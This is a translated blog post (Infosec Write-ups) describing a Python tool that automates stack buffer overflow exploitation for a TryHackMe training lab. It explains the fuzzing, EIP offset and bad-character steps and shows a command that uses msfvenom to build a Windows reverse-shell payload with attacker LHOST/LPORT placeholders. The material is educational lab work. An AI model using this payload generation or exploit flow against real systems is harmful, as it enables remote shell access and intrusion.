







# 缓冲区溢出的自动化

> 原文：<https://infosecwriteups.com/automation-of-buffer-overflow-b7252d77e72e?source=collection_archive---------2----------------------->

## Python 中我的基于堆栈的缓冲区溢出辅助程序的代码解释

在本文中，我不是在讲授缓冲区溢出，也不是在展示我用 python 编写的缓冲区溢出助手程序的演示。我要谈谈我是如何创建这个程序的。

*   (**推荐首先**了解缓冲区溢出:【https://tryhackme.com/room/bufferoverflowprep】T2
*   检查我的程序的演示:[Python 中的缓冲区溢出自动化](https://youtu.be/3nSAHeJ2YpQ)
*   缓冲区溢出辅助程序:[https://github.com/PakCyberbot/Buffer-Overflow-Assistant](https://github.com/PakCyberbot/Buffer-Overflow-Assistant)



# 我是如何想到这个项目的？

我正在做[TryHackme Room on Buffer-Overflow](https://tryhackme.com/room/bufferoverflowprep)。我必须解决上面的 10 个任务。



我通过理解基于堆栈的缓冲区溢出利用的每个步骤，手动完成了第一项任务。感谢 [Tib3rius](https://medium.com/u/16a5c5e916e4?source=post_page-----b7252d77e72e--------------------------------) 为这个房间和他的[关于缓冲区溢出的知识库](https://github.com/Tib3rius/Pentest-Cheatsheets/blob/master/exploits/buffer-overflows.rst)。在掌握了这些步骤之后，我想用我的缓冲区溢出助手来完成剩下的 9 个任务，所以我给了时间来创建它。

> 花 4 个小时创造或学习新事物比花 2 个小时做重复性的工作要好。

# 代码解释

我在我的程序中重用了 **Fuzzing** 和 **Exploit** 来自 [Tib3rius](https://github.com/Tib3rius/Pentest-Cheatsheets/blob/master/exploits/buffer-overflows.rst) 的代码，然后首先处理程序的配色方案和简单介绍。之后，我使用了 **pyperclip** 模块来为用户自动复制 mona 命令，这样它们就可以直接粘贴了。

我为不同的任务使用了不同的配色方案，这样眼睛可以很快捕捉到它们。



绿色:自动复制到剪贴板的文本



蓝色:接受用户的输入


红色:提醒用户在进一步操作之前，在抗干扰调试器中重新启动易受攻击的应用程序

我还使用了 **os.popen()** 以便程序从 Metasploit 生成有效负载，并在代码本身中使用它。



使用 pattern_create ruby 脚本



Bofy 使用 msfvenom 生成有效载荷

当 MsfVenom 生成有效负载时，它会给出一些不用于有效负载的额外字符作为输出。所以我用 **grep** 和 **tr** Linux 命令只过滤掉十六进制数据。

```
# filter out the payload using grep and trpayload = os.popen(f"msfvenom -p windows/shell_reverse_tcp LHOST={LHOST} LPORT={LPORT} EXITFUNC=thread -b \"{badchars}\" -f c | grep -oe  '\"[\\\\0-9a-z]*\"' | tr -d '\"' | tr -d \"\\n\"").read()
```

每当 python 程序从 stdin 获取输入时，它都会对\ characters 进行转义，这意味着:

```
payload = input('Value in hex : ')      #Value in hex : \x63
# payload = '\\x61' whereas I have to give same as the input sopayload = payload.encode('utf-8').decode('unicode_escape')
# payload = '\x61'  hex in 61 is 'a' in ascii
```

Exploit()方法简单总结:

*   求 EIP 偏移(*有效载荷=生成模式*)
*   测试 EIP 偏移量(*EIP 偏移量= <偏移量>&retn =‘BBBB’*)
*   找到 bad chars(*payload = byte _ array*)
*   找到跳转点(*retn = Jump _ Point _ Address*)
*   利用(*payload = MSF venom _ payload*)

# (*更新*)我的程序结果:

完成程序后，我用它解决了剩下的 9 个任务。完成这 9 项任务只花了 15 分钟。😎



*注意:*我没有编写代码来验证坏字符的删除。这个程序可能有一些错误，还没有很多功能。你可以在我的 [GitHub](https://github.com/PakCyberbot) 上报告这个错误，我们非常感谢你的合作。

要了解更多信息，您可以关注我:

*   推特:[https://twitter.com/PakCyberbot](https://twitter.com/PakCyberbot)
*   领英:[https://www.linkedin.com/in/pakcyberbot/](https://www.linkedin.com/in/pakcyberbot/)
*   中:[https://pakcyberbot.medium.com/](https://pakcyberbot.medium.com/)
*   GitHub:[https://github.com/PakCyberbot](https://github.com/PakCyberbot)
*   insta gram:[https://www.instagram.com/pakcyberbot/](https://www.instagram.com/pakcyberbot/)
*   YouTube:[https://www.youtube.com/@pakcyberbot](https://www.youtube.com/@pakcyberbot)

我希望你能从这篇文章中学到一些新的东西。欢迎在下面的评论区提出反馈或建设性的批评！

## 来自 Infosec 的报道:Infosec 每天都有很多内容，很难跟上。[加入我们的每周简讯](https://weekly.infosecwriteups.com/)以 5 篇文章、4 个线程、3 个视频、2 个 GitHub Repos 和工具以及 1 个工作提醒的形式免费获取所有最新的 Infosec 趋势！